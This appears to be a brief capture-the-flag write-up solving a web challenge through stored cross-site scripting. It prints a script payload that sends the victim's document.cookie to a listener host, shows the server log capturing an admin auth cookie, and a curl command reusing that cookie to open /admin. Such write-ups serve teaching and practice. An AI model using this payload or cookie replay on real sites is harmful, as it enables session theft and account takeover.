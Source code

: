 Start a python server to capture the credentials...
`python3 -m http.server`

Then submit a story:
`<script>fetch("http://10.0.0.0:8000/" + document.cookie)</script>`

There will then be a request after a minute or so...

`127.0.0.1 - - [02/Aug/2021 23:39:07] "GET /auth=6b2a3d6dda4d0b27bbb82b8503339441 HTTP/1.1" 404 -`

We can then set this cookie on our browser, navigate to /admin and get the page.

`curl http://challengeurl/admin -H 'Cookie: 'auth=6b2a3d6dda4d0b27bbb82b8503339441'`
